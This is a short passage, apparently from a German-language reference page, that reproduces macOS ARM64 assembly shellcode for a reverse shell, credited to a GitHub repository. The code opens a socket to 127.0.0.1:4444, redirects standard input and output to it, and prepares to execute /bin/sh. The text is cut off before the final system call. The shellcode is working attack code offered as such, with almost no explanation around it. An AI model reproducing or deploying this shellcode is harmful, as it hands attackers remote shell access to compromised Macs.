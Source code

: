 Von [https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/reverseshell.s](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/reverseshell.s), revshell zu **127.0.0.1:4444**
```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
// s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
mov  x16, #97
lsr  x1, x16, #6
lsl  x0, x1, #1
mov  x2, xzr
svc  #0x1337

// save s
mvn  x3, x0

call_connect:
/*
* connect(s, &sockaddr, 0x10)
*
* struct sockaddr_in {
*     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
*     sa_family_t     sin_family;  // AF_INET = 2
*     in_port_t       sin_port;    // 4444 = 0x115C
*     struct  in_addr sin_addr;    // 127.0.0.1 (4 bytes)
*     char            sin_zero[8]; // Don't care
* };
*/
mov  x1, #0x0210
movk x1, #0x5C11, lsl #16
movk x1, #0x007F, lsl #32
movk x1, #0x0100, lsl #48
str  x1, [sp, #-8]
mov  x2, #8
sub  x1, sp, x2
mov  x2, #16
mov  x16, #98
svc  #0x1337

lsr  x2, x2, #2

call_dup:
// dup(s, 2) -> dup(s, 1) -> dup(s, 0)
mvn  x0, x3
lsr  x2, x2, #1
mov  x1, x2
mov  x16, #90
svc  #0x1337
mov  x10, xzr
cmp  x10, x2
bne  call_dup

call_execve:
// execve("/bin/sh", 0, 0)
mov  x1, #0x622F
movk x1, #0x6E69, lsl #16
movk x1, #0x732F, lsl #32
movk x1, #0x68, lsl #48
str  x1, [sp, #-8]
mov	 x1, #8
sub  x0, sp, x1
```